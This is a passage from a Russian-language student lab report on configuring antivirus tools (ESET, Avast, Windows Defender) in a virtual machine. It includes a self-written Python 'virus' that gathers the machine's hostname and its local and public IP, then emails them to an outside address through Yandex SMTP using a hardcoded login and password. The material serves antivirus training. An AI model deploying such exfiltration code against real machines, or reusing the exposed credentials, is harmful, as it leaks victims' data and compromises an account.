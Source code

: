 \section{Цель работы}
Цель: изучение и приобретение навыков работы с антивирусным программным обеспечением. 

Задачи:
\begin{itemize}
    \item Конфигурирование антивирусного средства;
    \item Лечение заведомо зараженных вредоносных программ.
\end{itemize}


\section{Ход работы}
\subsection{Подготовка виртуальной машины}
Для работы с вредоносным ПО подготовим виртуальную машину. Установим антивирус \textbf{ESET Nod32} и \textbf{Avast}. \textbf{Защитник Windows} уже установлен (Рисунки 1-4).

\FloatBarrier
\clearpage

\subsection{Подготовка вредоносного ПО}
\subsubsection{Свой скрипт на Python}
Напишем свой скрипт на \texttt{Python}, реализующий простейшую атаку: получение ip-адреса компьютера и отправление их по почте злоумышленнику. Подобный скрипт описан на портале \url{https://spy-soft.net/malware-rat-python/}.

Код программы приведён в листинге ниже:

\begin{lstlisting}[language={python}, caption={Вирус}, numbers=none, lineskip={0pt}]
import smtplib as smtp
import socket
import urllib.request

hostname = socket.gethostname()
local_ip = socket.gethostbyname(hostname)

public_ip = urllib.request.urlopen("http://ident.me").read().decode("utf8")

email = "shadrunovas@yandex.ru"
password = "ahnvoheyesskboag"
dest_email = "shadrunovas@gmail.com"
subject = "IP"
email_text = f"Host: {hostname}\nLocal IP: {local_ip}\nPublic IP: {public_ip}"
message = "From: {}\nTo: {}\nSubject: {}\n\n{}".format(
    email, dest_email, subject, email_text
)
server = smtp.SMTP_SSL("smtp.yandex.com")

server.ehlo(email)
server.login(email, password)
server.auth_plain()
server.sendmail(email, dest_email, message)
server.quit()
\end{lstlisting}

